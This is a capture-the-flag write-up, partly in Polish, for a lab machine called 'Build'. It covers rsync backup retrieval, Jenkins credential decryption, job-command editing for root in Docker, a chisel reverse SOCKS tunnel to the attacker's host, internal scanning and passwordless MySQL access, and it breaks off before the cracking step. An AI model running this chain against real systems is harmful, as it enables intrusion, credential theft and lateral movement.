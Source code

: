 # Build
Linux, Easy, created by **xct**

```
22/tcp   open     ssh             OpenSSH 8.9p1 Ubuntu 3ubuntu0.7 (Ubuntu Linux; protocol 2.0)
53/udp    open   domain?
512/tcp open  exec    netkit-rsh rexecd
513/tcp open  login?
514/tcp open  shell   Netkit rshd
873/tcp open  rsync   (protocol version 31)
3000/tcp open     ppp?
3306/tcp filtered mysql
8081/tcp filtered blackice-icecap

```

I started with 873
https://book.hacktricks.xyz/network-services-pentesting/873-pentesting-rsync#banner-and-manual-communication

![list](https://github.com/user-attachments/assets/06b1e767-a09a-48e8-b2b3-d9b8830fac67)

![{06106B87-BFCC-48BE-B47C-50CA111F2CD7}](https://github.com/user-attachments/assets/dbb2fc91-8de1-4b8f-b2a6-228835b1fd92)

czekam około 3 minuty

```
rsync -av rsync://10.10.86.18/backups .
```

![{FD7E4963-9E4D-47F7-99E3-CC4E36E6DCAF}](https://github.com/user-attachments/assets/3d393b2a-97a3-4748-8a36-45b6998bcd2c)

![{4DD12C4F-DFAE-4594-B511-E88443B623E2}](https://github.com/user-attachments/assets/baefba4d-c1e3-44bb-996f-d6deb531d3c6)

under `jenkins_configuration/jobs/build/config.xml` we got hash
![jeniks1](https://github.com/user-attachments/assets/4ec50406-3ed2-4567-b2e6-24fb7e8a5ef6)

We also need `master.key` and `hudson.util.Secret`

I used [jenkins-credentials-decryptor](https://github.com/hoto/jenkins-credentials-decryptor) to decrypt the password.

![{79F79128-DBDA-481F-9E6D-4CAA2CD3915B}](https://github.com/user-attachments/assets/65ea9472-7a45-493e-bcc8-c942ef4ede37)

It works!

![{ECB87EC1-51C2-4489-9A03-4E5449BBF0B3}](https://github.com/user-attachments/assets/151feba0-4a68-4e87-b0bf-7a51504385d4)

Duży tych pliczków nie mamy, ale jak znam życie to to nawet prosty hook nie będzie tylko edycja tej komendy.

![{49386F7F-6E9D-484D-8F29-A3D7CA0CD154}](https://github.com/user-attachments/assets/402c23b3-d0aa-4bd4-9432-223d13f4ab6c)

![{8E79EAC7-D09B-48D1-A234-0429DBC7A19D}](https://github.com/user-attachments/assets/d2596929-9da4-4a8c-a34a-f4957f135805)

save and wait ~60-120sek

![{3AB9CB23-8DA5-4A78-8A8B-234B70B73E03}](https://github.com/user-attachments/assets/e157557e-91f7-479d-925d-0297a43c0670)

root na dockerze.

Pobieramy chisel'a

![{9F9C62C5-DE12-490B-9E02-DE00A997A6DD}](https://github.com/user-attachments/assets/6f8316c7-0ffe-4ced-b00d-3383db7f059b)

on docker
```
./chisel client 10.8.4.124:8000 R:socks
```
on my host
```
./chisel server --reverse --port 8000 --socks5
```

run port scan
```
proxychains4 -q nmap -Pn -v 172.18.0.1 172.18.0.2
```

![{D0AA01CD-F486-4054-80BA-8BFE075C334B}](https://github.com/user-attachments/assets/e13aa2e0-4605-498e-bb50-6bf5dc6a807b)


We are able to connect to mysql without password.

![{EADB8D67-8FDB-4F61-A4E7-2F9B3DAEEF08}](https://github.com/user-attachments/assets/436c78f6-cf9f-4aef-a613-dc472c7ae142)

![{3A32DD89-B0BA-4785-B2DB-789E63622A67}](https://github.com/user-attachments/assets/a721e35c-6696-471e-bc3a-b6a51d7bd1aa)

![{83C8F66A-64D2-4DE4-9F26-4A63214A7BEC}](https://github.com/user-attachments/assets/504efd07-ea2d-40fc-a9e1-080db55c0164)

But before cracking I found some interesting IPs

![{80D05ECC-88A6-4D5A-9DE5-2B0F8541EF54}](https://github.com/user-attachments/assets/cbdddb18-e3ac-42bb-8e19-44951f2e6eca)

